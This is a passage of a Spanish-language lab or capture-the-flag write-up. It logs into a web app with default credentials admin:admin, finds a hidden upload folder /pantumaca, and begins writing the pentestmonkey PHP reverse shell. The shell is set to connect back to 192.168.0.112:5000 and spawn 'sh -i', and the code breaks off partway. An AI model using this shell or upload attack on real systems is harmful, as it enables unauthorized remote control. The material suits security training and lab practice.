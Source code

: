 ![Captura de pantalla 2024-11-09 160551](https://github.com/user-attachments/assets/60885abb-951c-4789-8ded-08d5c96f3f7d)


Usando las credenciales admin:admin y subiendo un archivo de prueba, verificamos a donde nos redirige y guarda lo que estamos cargando, pues al final del codigo fuente tenemos un directorio oculto **/pantumaca** 

![Captura de pantalla 2024-11-09 161043](https://github.com/user-attachments/assets/fbd374c1-9e21-4332-9ae9-96d12139b56b)

![Captura de pantalla 2024-11-09 161328](https://github.com/user-attachments/assets/46848ed4-bed0-4cb5-964a-4573876d3e84)

![Captura de pantalla 2024-11-09 161410](https://github.com/user-attachments/assets/de9b2ee5-792a-424e-9fbb-71e475aa78b0)


Ahora que sabemos donde se guardan los archivos cargados procedemos a crear una reverse shell

```
nano rev-shell.php
```

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.0.112';
$port = 5000;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
```